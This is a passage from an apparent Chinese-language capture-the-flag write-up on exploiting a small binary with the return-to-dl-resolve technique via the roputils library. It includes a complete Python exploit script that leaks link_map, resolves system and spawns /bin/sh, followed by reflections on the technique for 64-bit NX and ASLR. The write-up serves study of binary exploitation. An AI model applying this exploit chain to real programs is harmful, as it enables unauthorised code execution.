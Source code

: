 ...
{% endhighlight %}

可以看到，这里有调用`read`和`write`，可供我们读写内存。但由于二进制文件本身较简略，构造ROP chain比较有技术含量。我们队当时并没有做出来这道题，赛后看writeup，大多是利用ROP来mem leak，读取足够的内存后构造出`execve`得到shell。

但是，如果使用return to dl-resolve技术，利用roputils，则可以1分钟之内傻瓜式解决……我就只是把roputils自带的examples中的`dl-resolve-x86-64.py`稍作修改即完成。改后的代码如下：

{% highlight python %}
#!/usr/bin/env python2

from roputils import *

fpath = sys.argv[1]
offset = 0x18

rop = ROP(fpath)
addr_stage = rop.section('.bss') + 0x400
ptr_ret = rop.search(rop.section('.fini'))

buf = rop.retfill(offset)
buf += rop.call_chain_ptr(
    ['write', 1, rop.got()+8, 8],
    ['read', 0, addr_stage, 420]
, pivot=addr_stage)
buf += rop.fill(0x100, buf)

p = Proc(rop.fpath)
p.write(buf)
p.read(0x13)
addr_link_map = p.read_p64()
print("link_map is at %s" % hex(addr_link_map))
addr_dt_debug = addr_link_map + 0x1c8

buf = rop.call_chain_ptr(
    ['read', 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+400]
)
buf += rop.dl_resolve_call(addr_stage+300)
buf += rop.fill(300, buf)
buf += rop.dl_resolve_data(addr_stage+300, 'system')
buf += rop.fill(400, buf)
buf += rop.string('/bin/sh')
buf += rop.fill(420, buf)

p.write(buf)
p.write_p64(0)
p.interact(0)
{% endhighlight %}

确实相比mem leak构造ROP，简洁太多了……

## 总结

之前，我的ROP方式，基本都是通过mem leak，读`.got.plt`，找到`system`的地址并调用；极少数情况下，无法mem leak，则是完全根据已有的gadget拼出ROP cain（见[http://rk700.github.io/writeup/2014/11/14/unexploitable/](http://rk700.github.io/writeup/2014/11/14/unexploitable/)）。现在，有了return to dl-resolve，就添加了一种思路。当然，对于64位，这种技术依然需要有读、写内存的gadgets。从理论上讲，有了这些gadgets, mem leak去找`system`的地址应该也可以。但相对来说，return to dl-resolve显得简洁、优雅一些。现在64位return to dl-resolve需要读内存，是为了找到`link_map+0x1c8`的地址以便写入。如果能够继续研究出不需要读内存的方法，则面对当下主流的64位NX, ASLR，return to dl-resolve的可适性会更加高。希望感兴趣的小伙伴可以一同讨论研究，完善这一技术。
